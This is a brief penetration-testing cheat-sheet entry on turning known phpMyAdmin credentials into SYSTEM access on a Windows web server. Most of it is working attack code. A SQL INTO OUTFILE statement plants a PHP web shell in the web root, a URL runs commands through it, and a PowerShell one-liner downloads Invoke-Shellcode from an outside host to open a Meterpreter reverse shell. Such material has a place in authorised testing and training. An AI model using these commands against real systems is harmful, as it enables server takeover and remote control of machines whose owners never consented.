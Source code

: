 #### 50. PHPMyAdmin Part 1

###### Exploitation – phpMyAdmin

- Assumptions

    - Username / Password of phpMyAdmin is known
    - Writable directories on the web server are known

- From phpMyAdmin access to SYSTEM privileges

    - Check OS
    
    ```    SHOW VARIABLES LIKE "%version%";
    ```
        - Create webshell
    
    ```	SELECT '<?php echo shell_exec($_GET[\'e\']); ?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php'
	```
	
	```
	http://newpc/phpmyadmin/config/shell.php?e=whoami
	```
	
	- Get a meterpreter

	[```Invoke-ShellCode```](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)

	```
	http://newpc/phpmyadmin/config/shell.php?e=C:\Windows\Syswow64\Windowspowershell\v1.0\powershell.exe -c iex((New-Object Net.WebClient).DownloadString('http://192.168.254.1/Invoke-ShellCode.ps1'));Invoke-ShellCode -Payload windows/meterpreter/reverse_https -LHOST 192.168.254.226 -LPORT 8443 -Force
	```
	
###### Read

- [Putting the MY in phpMyAdmin](https://pen-testing.sans.org/blog/pen-testing/2013/04/10/putting-the-my-in-phpmyadmin)